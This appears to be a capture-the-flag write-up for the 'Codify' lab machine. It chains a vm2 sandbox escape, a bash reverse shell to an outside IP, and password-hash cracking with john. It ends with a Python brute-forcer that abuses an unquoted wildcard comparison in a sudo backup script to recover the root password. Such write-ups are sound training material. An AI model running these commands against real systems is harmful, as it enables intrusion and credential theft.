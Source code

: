 # Codify

## Nmap

```bash
nmap -sC -sV -vv -p- -oN nmap/full $target
```

## Homepage

![Homepage](/Screenshots/2024-02-25-11-18-13.png)

![About us](/Screenshots/2024-02-25-11-42-17.png)

![Editor](/Screenshots/2024-02-25-11-41-59.png)

About us mentions a library `Vm2`

[PoC](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) for `Sandbox Escape in vm2@3.9.16`

![id proof](/Screenshots/2024-02-25-11-44-28.png)

As we now have an operational command execution let's get ourselves a shell.

```bash
bash -c "sh -i >& /dev/tcp/10.10.14.139/4544 0>&1
```

![svc shell](/Screenshots/2024-02-25-11-46-47.png)

We'd like a stable shell first:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
^Z
stty raw -echo && fg
export TERM=xterm
```

```bash
find / -type d -perm /u+rx 2>/dev/null | grep -v /sys | grep -v /dev | grep -v /usr | grep -v /etc | grep -v /srv | grep -v /proc | grep -v /var | grep -v /run | grep -v /boot
```

![opt](/Screenshots/2024-02-25-11-56-59.png)

![bad coding practice](/Screenshots/2024-02-25-13-01-33.png)

by not wrapping `$USER_PASS` we can insert wildcards `*`

![potential wildcard vuln](/Screenshots/2024-02-25-11-58-38.png)

Although this is a nice find and we can provide wildcard in the prompt we still need a different user to launch the script, since we're prompted a user password.

![tickets.db](/Screenshots/2024-02-25-13-00-52.png)

Strings reveals a hash

![strings](/Screenshots/2024-02-25-13-02-33.png)

```bash
john hash -w=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

```bash
ssh joshua@$target
```

![joshua](/Screenshots/2024-02-25-13-08-59.png)

We can explore the db one line at a time just by providing joshua's password

```bash
mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "use mysql; select * from user;"
```

![show databases](/Screenshots/2024-02-25-14-14-51.png)

```bash
mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "use mysql; Select * from user;"
```

![hashes](/Screenshots/2024-02-25-14-16-33.png)

By doing only this we can find `mysql-sha1` hashes, unfortunately root's hash isn't crackable so we'll need to resort to bruteforcing anyway. 

![sudo -l](/Screenshots/2024-02-25-13-09-21.png)

As the wildcard always returns True we can bruteforce the password by appending the end of the bruteforced passwd with `*`

```python
import string
import subprocess

all_chars = list(string.ascii_letters + string.digits)
passwd = ""
fail = False

while not fail:
        for char in all_chars:
                command = f"echo '{passwd}{char}*' | sudo /opt/scripts/mysql-backup.sh"
                out = subprocess.run(command, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True, text=True).stdout
                if "confirmed" in out:
                        passwd += char
                        print(f"\r{passwd}", end='')
                        break
        else:
                fail = True
                print()
```

![expl.py](/Screenshots/2024-02-25-13-39-35.png)

```bash
su root
```

![root](/Screenshots/2024-02-25-13-40-02.png)

![Pwn](/Screenshots/2024-02-25-13-35-38.png)
